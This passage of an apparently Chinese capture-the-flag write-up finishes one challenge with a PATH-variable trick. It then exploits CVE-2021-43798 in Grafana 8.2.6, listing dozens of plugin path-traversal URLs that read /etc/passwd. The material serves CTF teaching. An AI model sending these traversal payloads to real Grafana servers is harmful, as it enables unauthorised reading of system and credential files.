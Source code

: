 ![image-20220417200914217](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-23a3b7443899817cb97c85e7df323ef9c69cfd4b.png)

查看随机数

![image-20220417201136709](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-c8c8e3e605bdda741977fc707f1b84be5f396f59.png)

这里上传文件时需要注意，要把`\r`删点，不然两者依然是不相等的

最后修改`PATH`环境变量，获取flag

![image-20220417020920307](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-fa5b4f4ef7fadf5af9d7123c40202c0743ff5f6c.png)

oh-my-grafana
=============

`grafana`版本是`8.2.6`，存在`CVE-2021-43798`任意文件读取的漏洞

这里需要一个存在的插件地址，受影响的插件大致如下

```text
/public/plugins/alertmanager/../../../../../../../../etc/passwd
/public/plugins/grafana/../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd
/public/plugins/mixed/../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../etc/passwd
/public/plugins/dashboard/../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../etc/passwd
/public/plugins/alertGroups/../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../etc/passwd
/public/plugins/debug/../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../etc/passwd
/public/plugins/live/../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../etc/passwd
/public/plugins/alertlist/../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../etc/passwd
/public/plugins/canvas/../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../etc/passwd
/public/plugins/xychart/../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../etc/passwd
```